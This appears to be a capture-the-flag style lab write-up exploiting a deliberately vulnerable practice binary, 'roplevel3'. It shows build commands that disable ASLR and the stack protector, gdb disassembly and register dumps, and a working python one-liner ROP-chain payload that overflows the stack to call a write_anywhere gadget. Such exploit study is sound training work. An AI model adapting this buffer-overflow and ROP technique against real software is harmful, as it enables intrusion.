### How to compile binary (disable ASLR & PIE):

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
gcc roplevel3.c -o roplevel3 -fno-stack-protector -m32 -Wl,-z,norelro -mpreferred-stack-boundary=2 -no-pie
```

### Analysis

```
pwndbg> disas validate
Dump of assembler code for function validate:
   0x0804928b <+0>:	push   ebp
   0x0804928c <+1>:	mov    ebp,esp
   0x0804928e <+3>:	push   ebx
   0x0804928f <+4>:	call   0x80490f0 <__x86.get_pc_thunk.bx>
   0x08049294 <+9>:	add    ebx,0x2244
   0x0804929a <+15>:	lea    eax,[ebx-0x13d8]
   0x080492a0 <+21>:	push   eax
   0x080492a1 <+22>:	push   DWORD PTR [ebp+0x8]
   0x080492a4 <+25>:	call   0x8049030 <strcmp@plt>
   0x080492a9 <+30>:	add    esp,0x8
   0x080492ac <+33>:	test   eax,eax
   0x080492ae <+35>:	jne    0x80492b7 <validate+44>
   0x080492b0 <+37>:	call   0x80491b6 <func>
   0x080492b5 <+42>:	jmp    0x804931b <validate+144>
   0x080492b7 <+44>:	lea    eax,[ebx-0x13ba]
   0x080492bd <+50>:	push   eax
   0x080492be <+51>:	push   DWORD PTR [ebp+0x8]
   0x080492c1 <+54>:	call   0x8049030 <strcmp@plt>
   0x080492c6 <+59>:	add    esp,0x8
   0x080492c9 <+62>:	test   eax,eax
   0x080492cb <+64>:	jne    0x80492ef <validate+100>
   0x080492cd <+66>:	mov    eax,DWORD PTR [ebx+0x34]
   0x080492d3 <+72>:	test   eax,eax
   0x080492d5 <+74>:	jne    0x80492e8 <validate+93>
   0x080492d7 <+76>:	lea    eax,[ebx-0x139c]
   0x080492dd <+82>:	push   eax
   0x080492de <+83>:	call   0x8049050 <puts@plt>
   0x080492e3 <+88>:	add    esp,0x4
   0x080492e6 <+91>:	jmp    0x804931b <validate+144>
   0x080492e8 <+93>:	call   0x80491db <func_internal>
   0x080492ed <+98>:	jmp    0x804931b <validate+144>
=> 0x080492ef <+100>:	lea    eax,[ebx-0x13b0]
   0x080492f5 <+106>:	push   eax
   0x080492f6 <+107>:	push   DWORD PTR [ebp+0x8]
   0x080492f9 <+110>:	call   0x8049030 <strcmp@plt>
   0x080492fe <+115>:	add    esp,0x8
   0x08049301 <+118>:	test   eax,eax
   0x08049303 <+120>:	jne    0x804930c <validate+129>
   0x08049305 <+122>:	push   0x0
   0x08049307 <+124>:	call   0x8049070 <exit@plt>
   0x0804930c <+129>:	lea    eax,[ebx-0x1368]
   0x08049312 <+135>:	push   eax
   0x08049313 <+136>:	call   0x8049050 <puts@plt>
   0x08049318 <+141>:	add    esp,0x4
   0x0804931b <+144>:	nop
   0x0804931c <+145>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x0804931f <+148>:	leave  
   0x08049320 <+149>:	ret    
End of assembler dump.
```

```
gdb-peda$ x $ebx+0x34 // break at validate function after "0x0804928f <+4>:	call   0x80490f0 <__x86.get_pc_thunk.bx>"
0x804b55c <internal_mode>:      0x00000000
gdb-peda$ p (int) internal_mode
$1 = 0x0
```

>0x080492ae <+35>:	jne    0x80492b7 <validate+44>
>
>checks if the number is 1, 
>
>if it is call func then ret and jmp to validate+144 (end)
>
>if it is not jmp to validate+44 and continue
>
> </br>
>0x080492cb <+64>:	jne    0x80492ef <validate+100> 
>
>Checks if the number is 2,
>
>if it is continue
>
>if it is not jmp to 100
>
> </br>
>0x080492d5 <+74>:	jne    0x80492e8 <validate+93>
>
>check if eax is not 0
>
>if eax is not 0 then execute internal_func
>
>if eax is 0 then jmp to validate+144 (end)
>
> </br>
>0x08049303 <+120>:	jne    0x804930c <validate+129>
>
>check if number is 3
>
>if it is 3 then continue and eventually exit
>
>if it is not 3 then continue to validate+129 then to validate+144 (end)

### Answer:

`(python2 -c "print('ZZZZYYYYXXXX' + '\x28\xb5\x04\x08' + 'BBBB' + '\x34\x93\x04\x08' + 'AAAA' + '\x21\x93\x04\x08' + '\x45\x93\x04\x08')" ; cat) | ./roplevel3`

- Need to make sure that `eax` is not 0 which is from `[ebx+0x34]` hence execute BoF to overwrite return pointer and execute write_anywhere() function. This function will move whatever is in `ecx` into `[ebx+0x34]` which is the location of our internal_mode variable. In this case, 'BBBB' is what will be written to `ecx` in our buffer overflow.

- Total padding before overwriting return pointer: 5 * "AAAA"

- 0x08049334: Address of gadget to push ecx to stack. This pops "BBBB" from stack to ecx. Somehow, before the actual `pop ecx` instruction is executed, the top of the stack is as follows:

   ```
   gdb-peda$
   [----------------------------------registers-----------------------------------]
   EAX: 0x804b528 --> 0x804b43c --> 0x1
   EBX: 0x804b528 --> 0x804b43c --> 0x1
   ECX: 0xffffffff
   EDX: 0xffffffff
   ESI: 0xf7fbd000 --> 0x1e7d6c
   EDI: 0xf7fbd000 --> 0x1e7d6c
   EBP: 0xffffd61c ("BBBBAAAA!\223\004\bE\223\004\b")
   ESP: 0xffffd61c ("BBBBAAAA!\223\004\bE\223\004\b")
   EIP: 0x8049341 (<gadget+13>:    pop    ecx)
   EFLAGS: 0x10216 (carry PARITY ADJUST zero sign trap INTERRUPT direction overflow)
   [-------------------------------------code-------------------------------------]
      0x8049335 <gadget+1>:        mov    ebp,esp
      0x8049337 <gadget+3>:        call   0x80493ad <__x86.get_pc_thunk.ax>
      0x804933c <gadget+8>:        add    eax,0x21ec
   => 0x8049341 <gadget+13>:       pop    ecx
      0x8049342 <gadget+14>:       nop
      0x8049343 <gadget+15>:       pop    ebp
      0x8049344 <gadget+16>:       ret
      0x8049345 <main>:    push   ebp
   [------------------------------------stack-------------------------------------]
   0000| 0xffffd61c ("BBBBAAAA!\223\004\bE\223\004\b")
   0004| 0xffffd620 ("AAAA!\223\004\bE\223\004\b")
   0008| 0xffffd624 --> 0x8049321 (<write_anywhere>:       push   ebp)
   0012| 0xffffd628 --> 0x8049345 (<main>: push   ebp)
   0016| 0xffffd62c --> 0xffffd600 --> 0x804939a (<main+85>:       add    esp,0x4)
   0020| 0xffffd630 --> 0xf7fbd000 --> 0x1e7d6c
   0024| 0xffffd634 --> 0x0
   0028| 0xffffd638 --> 0xffffd698 --> 0xffffd6b4 --> 0xffffd7d8 ("/home/ernest/offsec-prep/osed-prep/BillyEllis/ROPLevel3/roplevel3")
   [------------------------------------------------------------------------------]
   Legend: code, data, rodata, value
   0x08049341 in gadget ()
   gdb-peda$
   ```

- When returning from gadget, the top of stack points to the address after "AAAA" which is write_anywhere, which is what we want

   ```
   gdb-peda$
   [----------------------------------registers-----------------------------------]
   EAX: 0x804b528 --> 0x804b43c --> 0x1
   EBX: 0x804b528 --> 0x804b43c --> 0x1
   ECX: 0x42424242 ('BBBB')
   EDX: 0xffffffff
   ESI: 0xf7fbd000 --> 0x1e7d6c
   EDI: 0xf7fbd000 --> 0x1e7d6c
   EBP: 0x41414141 ('AAAA')
   ESP: 0xffffd624 --> 0x8049321 (<write_anywhere>:        push   ebp)
   EIP: 0x8049344 (<gadget+16>:    ret)
   EFLAGS: 0x10216 (carry PARITY ADJUST zero sign trap INTERRUPT direction overflow)
   [-------------------------------------code-------------------------------------]
      0x8049341 <gadget+13>:       pop    ecx
      0x8049342 <gadget+14>:       nop
      0x8049343 <gadget+15>:       pop    ebp
   => 0x8049344 <gadget+16>:       ret
      0x8049345 <main>:    push   ebp
      0x8049346 <main+1>:  mov    ebp,esp
      0x8049348 <main+3>:  push   ebx
      0x8049349 <main+4>:  sub    esp,0xc
   [------------------------------------stack-------------------------------------]
   0000| 0xffffd624 --> 0x8049321 (<write_anywhere>:       push   ebp)
   0004| 0xffffd628 --> 0x8049345 (<main>: push   ebp)
   0008| 0xffffd62c --> 0xffffd600 --> 0x804939a (<main+85>:       add    esp,0x4)
   0012| 0xffffd630 --> 0xf7fbd000 --> 0x1e7d6c
   0016| 0xffffd634 --> 0x0
   0020| 0xffffd638 --> 0xffffd698 --> 0xffffd6b4 --> 0xffffd7d8 ("/home/ernest/offsec-prep/osed-prep/BillyEllis/ROPLevel3/roplevel3")
   0024| 0xffffd63c --> 0x0
   0028| 0xffffd640 --> 0xf7ffd000 --> 0x2bf24
   [------------------------------------------------------------------------------]
   Legend: code, data, rodata, value
   0x08049344 in gadget ()
   gdb-peda$
   ```

- 0x804b528: Base location of the `internal_mode` variable

   ```
   gdb-peda$ x 0x0804b528
   0x804b528:      0x0804b43c
   gdb-peda$ x 0x0804b528 + 0x34
   0x804b55c <internal_mode>:      0x00000000
   ```

- Setting 0x804b528 right after 12 bytes of padding will ensure that the `ebx` register will contain the base address of the `internal_mode` variable and adding the 52 decimal or 34 hexadcimal value will get us the actual location of `internal_mode` variable which will then allow us to write to that address with whatever is from `ecx` which should be "BBBB"

- 0x8049345: Start of main function, which is where we want to return to at the end of our rop chain

### Notes

For this exploit to work, we need to know the location of the internal_mode variable and adjust our write_anywhere gadget to allow us to write to it. In this case, from debugging, we know that given that ASLR and PIE is disabled, the base address is 0x0804b528. To obtain this value, but a breakpoint before the `0x080492cd <+66>:	mov    eax,DWORD PTR [ebx+0x34]` instruction and print the value of `ebx` or where ever the program references to get the value of internal_mode.

### References

https://stackoverflow.com/questions/19398216/why-is-there-a-expecting-comma-error-in-y86-code

https://stackoverflow.com/questions/9617877/assembly-jg-jnle-jl-jnge-after-cmp

https://stackoverflow.com/questions/6261392/printing-all-global-variables-local-variables

https://stackoverflow.com/questions/52024529/whats-the-difference-between-nexti-and-stepi-in-gdb
